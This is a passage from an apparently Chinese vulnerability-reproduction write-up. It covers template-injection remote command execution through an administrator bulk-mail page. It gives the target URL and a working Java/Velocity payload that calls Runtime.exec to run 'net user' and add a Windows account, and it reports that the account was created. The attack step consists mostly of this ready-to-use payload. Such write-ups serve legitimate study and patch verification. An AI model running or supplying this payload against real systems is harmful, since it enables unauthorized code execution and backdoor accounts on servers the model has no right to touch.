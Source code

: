 发送了后可能会等一会儿，因为要加入邮件队列。这时候再上服务器执行net user查看，发现正是刚刚执行命令添加的账户。

![image](img/8e6a35dfd817d45744888544ac507ff7.png)

**5\. 登陆管理员账号触发漏洞**

登陆管理员账号，然后访问如下URL：

http://www.0-sec.org:8080/secure/admin/SendBulkMail!default.jspa

填入payload，如下，注意执行命令添加账号的账户名

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('net user bk01 abc@ABC123 /add').waitFor() 
```

![image](img/b21b95c548cc68f4f11ef64b684da2de.png)

